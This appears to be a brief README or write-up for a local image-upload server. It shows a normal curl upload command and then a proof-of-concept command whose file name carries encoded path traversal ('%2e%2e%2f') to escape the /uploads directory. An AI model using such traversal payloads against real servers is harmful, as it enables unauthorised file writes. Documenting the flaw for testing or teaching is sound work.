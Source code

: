 Folder /uploads for uploaded images

To successfully execute the curl command and upload an image, navigate to the /uploads directory in your terminal and then run the command: curl -X POST -F "image=@honeybunny.png" http://localhost:3000/upload. This ensures that the image file is referenced correctly and can be properly processed and saved by the server in the specified directory.

PoC : curl -X POST -F "image=@%2e%2e%2fhoneybinny.png" http://localhost:3000/upload

